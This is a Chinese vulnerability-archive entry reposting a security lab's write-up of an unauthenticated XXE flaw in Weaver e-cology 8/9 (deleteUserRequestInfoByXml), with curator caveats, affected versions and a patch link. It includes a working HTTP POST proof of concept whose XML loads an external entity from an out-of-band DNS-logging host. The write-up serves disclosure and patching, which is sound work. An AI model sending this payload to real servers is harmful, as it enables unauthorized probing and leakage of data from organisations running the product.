




# 泛微e-cology8/9 deleteUserRequestInfoByXml XXE

## 条目说明

- 对象与具体问题：泛微e-cology8/9；deleteUserRequestInfoByXml XXE
- 版本、配置及部署条件：补丁<10.58.2；声称10.58.2修复
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 修复链接文件名却是10.58.1，安全边界与实际补丁不一致需核验
- 外部DTD请求和未定义xxe实体样本可用于外联但不直接证明读取文件或RCE
- Content-Length35不符且无头体空行；原始响应和DNS结果仅图片
- 可与2023合集QVD-2023-16177关联候选，本文未明示编号，不自动补主ID

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YT64vy3tbAoxj6CQ7XWgUA)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

  

泛微协同管理应用平台 (e-cology) 是一套兼具企业信息门户、知识文档管理、工作流程管理、人力资源管理、客户关系管理、项目管理、财务管理、资产管理、供应链管理、数据中心功能的企业大型协同管理平台，形成了一系列的通用解决方案和行业解决方案。

泛微厂商发布安全补丁更新，修复泛微 E-CologyXML 外部实体注入漏洞。由于后台逻辑对 XXE 漏洞防护存在缺陷，导致远程未授权攻击者可绕过现有防护实现 XML 外部实体注入，最终可能造成敏感信息泄露，且进一步配合其他漏洞可能导致 RCE 等危害。


  

**0x02 影响版本**  

  

泛微 EC 9.x 且补丁版本 < 10.58.2  

泛微 EC 8.x 且补丁版本 < 10.58.2


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



2. 对漏洞进行复现

 **Poc （POST）**

```http
POST /rest/ofs/deleteUserRequestInfoByXml HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 35
Content-Type: application/xml
Accept-Encoding: gzip
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % d SYSTEM "http://wutvavcfzj.dnstunnel.run">
    %d;
]>
<a>&xxe;</a>

```

漏洞复现

POST 请求，响应存在漏洞



        yakit 生成测试域名



3.x-poc 测试（漏洞存在）




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

目前官方已发布 10.58.2 来修复此漏洞，建议受影响用户更新至 10.58.2

```
https://www.weaver.com.cn/cs/package/Ecology_security_20230711_v9.0_v10.58.1_deta.zip?v=20230711

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
